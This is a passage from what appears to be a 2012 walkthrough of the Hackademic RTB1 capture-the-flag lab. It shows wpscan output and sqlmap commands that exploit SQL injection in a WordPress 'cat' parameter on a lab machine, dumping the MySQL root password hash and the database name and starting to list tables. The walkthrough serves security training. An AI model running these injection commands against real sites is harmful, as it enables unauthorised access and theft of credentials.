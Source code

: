 ```
[+] Finished at Tue Nov 13 22:20:45 2012
[+] Elapsed time: 00:00:00
root@bt:/pentest/web/wpscan# 
```

Clearly a Wordpress, and quite clearly a very old version.  I couldn't get the listed add admin exploit to work, so I played around with SQLi:

{{< figure src="/images/posts/2012/hrt_1.jpg" >}}

The backend appears to be running as root.  Switching over to sqlmap, we can iterate through the backend much quicker:

```
root@bt:/pentest/database/sqlmap# python sqlmap.py --url http://192.168.1.168/Hackademic_RTB1/?cat=0 --users --passwords

[22:29:16] [INFO] resuming back-end DBMS 'mysql' 
[22:29:16] [INFO] testing connection to the target url
[22:29:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL 5.0
[22:29:16] [INFO] fetching database users
[22:29:16] [INFO] the SQL query used returns 27 entries
database management system users [1]:
[*] 'root'@'localhost'

[22:29:16] [INFO] fetching database users password hashes
[22:29:17] [INFO] the SQL query used returns 1 entries
[22:29:17] [INFO] resumed: root
[22:29:17] [INFO] resumed: 2eaec110380126d7
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] n
database management system users password hashes:
[*] root [1]:
    password hash: 2eaec110380126d7

[22:29:18] [INFO] fetched data logged to text files under '/pentest/database/sqlmap/output/192.168.1.168'

[*] shutting down at 22:29:18

root@bt:/pentest/database/sqlmap# 
```

There's the 'mysql' root hash, which appears to be an old style hash.  Moving forward...

```
root@bt:/pentest/database/sqlmap# python sqlmap.py --url http://192.168.1.168/Hackademic_RTB1/?cat=0 --current-db

[22:32:10] [INFO] resuming back-end DBMS 'mysql' 
[22:32:10] [INFO] testing connection to the target url
[22:32:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL 5.0
[22:32:10] [INFO] fetching current database
[22:32:10] [INFO] resumed: wordpress
current database:    'wordpress'

[*] shutting down at 22:32:10

root@bt:/pentest/database/sqlmap# python sqlmap.py --url http://192.168.1.168/Hackademic_RTB1/?cat=0 -D wordpress --tables

```